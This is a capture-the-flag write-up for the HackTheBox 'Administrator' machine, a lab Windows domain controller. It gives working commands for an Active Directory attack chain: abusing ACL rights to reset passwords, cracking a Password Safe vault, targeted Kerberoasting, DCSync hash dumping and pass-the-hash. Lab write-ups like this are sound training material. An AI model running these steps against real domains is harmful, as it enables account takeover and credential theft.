## About Administrator

**Name:** Administrator

**Machine:** https://app.hackthebox.com/machines/Administrator

**Difficulty:** Medium

**OS:** Windows

**Target IP:** 10.129.59.4

**Credentials:** `Olivia: ichliebedich`

---
## Enumeration

Let's start, as always, with an Nmap scan using `-sC` and `-sV` to enumerate open ports, services, and their versions:

```
$ nmap -sV -sC -oA Administrator -v 10.129.59.4

PORT     STATE SERVICE       VERSION                                                                                                                                
21/tcp   open  ftp           Microsoft ftpd                                                                                                                         
| ftp-syst:                                                                                                                                                         
|_  SYST: Windows_NT                                                                                                                                                
53/tcp   open  domain        Simple DNS Plus                                                                                                                        
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-09 17:54:03Z)                                                                         
135/tcp  open  msrpc         Microsoft Windows RPC                                
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                        
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)                                     
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?             
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                  
636/tcp  open  tcpwrapped            
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)                                     
3269/tcp open  tcpwrapped                                                                                                                                           
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found                                                           
|_http-server-header: Microsoft-HTTPAPI/2.0                                       
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

The output shows a full Active Directory service stack - DNS, Kerberos, LDAP, SMB, and WinRM along with the domain name `administrator.htb` and the hostname `DC`, confirming this is a Domain Controller. Let's add both to our `/etc/hosts` file before moving on.



Since we're treating this like a real assessment, we were given a starting set of credentials `Olivia: ichliebedich`. Let's use these to check for accessible SMB shares:

```
nxc smb 10.129.59.4 -u Olivia -p ichliebedich --shares
```


Nothing interesting turned up in the shares, so let's shift to enumerating domain users instead:

```
nxc smb 10.129.59.4 -u Olivia -p ichliebedich --users | tee usernames.txt 
```

This gave us a list of usernames worth investigating further as we build out the attack path.



## Foothold

With a set of users identified, let's bring in **BloodHound** to collect data for finding a path forward:

```
bloodhound-python -u olivia -p 'ichliebedich' -ns 10.129.59.4 -d administrator.htb -c all
zip -r administrator.zip *.json
```

We import this zip into BloodHound and mark `Olivia` as owned.



Checking Olivia's **Outbound Object Control** rights, we find she holds **GenericAll** over the user `Michael`. GenericAll is essentially full control over an object - for a user account, that means we can do things like reset their password outright, without needing to know the current one.



Let's abuse this right to reset Michael's password using BloodyAD:

```
bloodyad --host administrator.htb -d administrator.htb -u Olivia -p ichliebedich set password "michael" pass@123
```

We successfully authenticate as `Michael` with the new password.



`Michael` turns out to be a member of the **Remote Management Users** group, which means WinRM access is available to him - so let's log in with evil-winrm:



We're in as `Michael` and enumerating files and folder - we found nothing interesting.



Back in BloodHound, we see that Michael holds **ForceChangePassword** rights over the user `Benjamin`. Unlike GenericAll, ForceChangePassword only lets us reset the target's password (nothing more) - but that's all we need here. 



We can perform this either through evil-winrm directly or with BloodyAD; let's go with BloodyAD:
```
bloodyad --host administrator.htb -d administrator.htb -u michael -p 'pass@123' set password "benjamin" password123
```

This gives us control over Benjamin's account.



Looking further, Benjamin is a member of the **Share Moderators** group. This hints that he might have access to file shares beyond standard SMB.



I tried logging into the FTP service with his credentials and it works.



Browsing the FTP server, we find a file named `Backup.psafe3` and download it for closer inspection.



A `.psafe3` file is a **Password Safe** database - an encrypted vault that stores multiple sets of credentials behind a single master password. If we can crack that one master password, we potentially get access to every credential stored inside. Let's extract a crackable hash from it and run it through John:

```
pwsafe2john Backup.psafe3 > psafe.hash
john --wordlist=/usr/share/wordlists/rockyou.txt psafe.hash
```

This successfully cracks the master password: `tekieromucho`.



To actually open the vault, we need the Password Safe application itself, so let's download and install it from [here](https://github.com/pwsafe/pwsafe/releases):

```
wget https://github.com/pwsafe/pwsafe/releases/download/1.25.0/passwordsafe-debian12-1.25-amd64.deb
sudo dpkg -i passwordsafe-debian12-1.25-amd64.deb 
```

We open `Backup.psafe3` in the application and enter the recovered master password.



Inside, we find a list of usernames that match the domain users we identified earlier during enumeration - a strong sign this vault belongs to the domain and holds real, usable credentials.



Double-clicking each username copies its associated password to the clipboard, so we go through and collect every username/password pair into a text file for testing.



Testing these credentials against the domain, only one pair works - for the user `emily`.



Let's connect via evil-winrm as `emily` and grab the **user flag**.



## Privilege Escalation

Back in BloodHound, we find that `emily` holds **GenericWrite** over the user `ethan`.



GenericWrite lets us modify certain attributes on the target object including, notably, the `servicePrincipalName` attribute. That means we can register a fake SPN on Ethan's account and make him "kerberoastable," even though he wasn't originally.

Before attempting Kerberos-based attacks, our clock needs to be in sync with the DC - Kerberos is time-sensitive, and even a small clock skew will cause authentication failures. Let's disable local NTP syncing and sync directly against the target instead:

```
date 
sudo timedatectl set-ntp off 
sudo rdate -n 10.129.59.4
```

With our clock aligned, let's set a fake SPN on Ethan using Emily's credentials:

```
bloodyad --host administrator.htb -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' set object ethan servicePrincipalName -v 'fake/kerberoast'
```

Now that Ethan has an SPN, we can request his TGS ticket:

```
impacket-GetUserSPNs -dc-ip 10.129.59.4 administrator.htb/emily -request-user ethan -outputfile ethan_tgs
```



We can crack this hash with either Hashcat or John. Let's use John here, and it successfully recovers Ethan's password: `limpbizkit`.

```
john --wordlist=/usr/share/wordlists/rockyou.txt ethan_tgs
```



Checking BloodHound again with Ethan's account, we find he holds **GetChanges**, **GetChangesAll**, and **GetChangesInFilteredSet** rights over the domain itself.



These three permissions together are exactly what's needed to perform a **DCSync attack** - essentially impersonating a domain controller and asking the real DC to replicate its password data to us.

Let's use `secretsdump` to pull all NTLM hashes and Kerberos keys straight out of the NTDS database:

```
impacket-secretsdump -outputfile administrator_hashes -just-dc administartor.htb/ethan@10.129.59.4
```

This dump includes the NTLM hash for the `administrator` account itself.



With this hash, we can authenticate directly as `administrator` (via pass-the-hash) and read the **root flag**.



---